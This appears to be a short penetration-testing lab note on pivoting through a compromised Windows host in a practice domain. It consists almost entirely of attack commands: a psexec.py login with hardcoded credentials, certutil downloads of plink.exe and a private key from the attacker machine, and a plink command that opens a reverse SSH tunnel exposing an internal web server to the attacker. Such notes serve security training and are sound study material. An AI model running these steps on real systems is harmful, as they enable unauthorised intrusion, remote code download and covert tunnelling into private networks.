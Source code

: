 Kali => Punisher => Spiderman

| Kali | Punisher | Spiderman | 
| --- | --- | --- |
| 192.168.111.133 | 192.168.111.138 / 10.10.10.129 | 10.10.10.128

```
psexec.py marvel.local/fcastle:Password1@192.168.111.138
```

```
cd C:\Users\fcastle\Documents
```

```batch - windows
certutil -urlcache -split -f http://192.168.111.133/plink.exe
```

Create ssh keygen:

[[2a._SSH Tun(Linux)#Reverse Connections]]

Install putty-tools and convert they reverse file.

```
sudo apt install putty-tools
```

```
puttygen reverse -o reverse_key.ppk
```

Transfer reverse_key to vic:

```batch - windows
certutil -urlcache -split -f http://192.168.111.133/reverse_key.ppk
```

```batch - windows
cmd.exe /c echo y | .\plink.exe -R 8000:10.10.10.128:80 kali@192.168.111.133 -i reverse_key.ppk -N
```
